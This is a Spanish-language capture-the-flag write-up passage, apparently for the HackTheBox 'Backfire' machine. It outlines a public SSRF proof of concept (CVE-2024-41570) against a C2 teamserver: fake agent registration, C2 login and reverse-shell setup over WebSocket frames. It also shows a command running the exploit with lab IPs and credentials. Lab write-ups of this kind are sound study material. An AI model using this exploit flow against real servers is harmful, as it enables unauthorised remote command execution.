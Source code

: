 Encontramos un PoC SSRF (CVE-2024-41570) que permite realizar una redirección de puerto a un servicio remoto.

[Github](https://gist.github.com/pich4ya/bda16a3b2104bea411612f20d536174b)

### Análisis de código

```python
decrypt()      # Descifra datos usando AES en modo contador
encrypt()      # Cifra datos usando AES en modo contador
int_to_bytes() # Convierte enteros a bytes
```

```python
register_agent()         # Gestiona el registro de agentes
open_socket()           # Establece conexión con el teamserver
write_socket()          # Envía datos al socket
read_socket()           # Recibe datos del socket
build_websocket_frame() # Construye frames WebSocket enmascarados
generate_sha3_256()     # Genera hashes SHA3-256
```

### Flujo de ejecución

1. **Inicialización**
   - Configura variables esenciales (`magic`, `teamserver_listener_url`, `headers`)
   - Establece parámetros de identidad (`agent_id`)
   - Inicializa claves criptográficas (`AES_Key`, `AES_IV`)

2. **Establecimiento de conexión**
   - Registra el agente usando `register_agent()`
   - Abre socket al teamserver con `open_socket()`
   - Construye y envía payload JSON para login C2

3. **Configuración del shell reverso**
   - Genera nombre de servicio y puerto aleatorios
   - Construye payload JSON para el servicio
   - Envía configuración mediante WebSocket frame

4. **Ejecución de comandos**
   - Prepara payload de inyección
   - Envía mediante WebSocket frame
   - Recibe y procesa respuesta del servidor


### Ejecución del PoC

```bash
python3 ssrf_poc.py -t https://10.10.11.49 -l 10.10.16.71 -c2user ilya -c2pass CobaltStr1keSuckz!
```

[![SSRF PoC](/assets/img/posts/backfire-hackthebox/poc_shell.png)](/assets/img/posts/backfire-hackthebox/poc_shell.png)
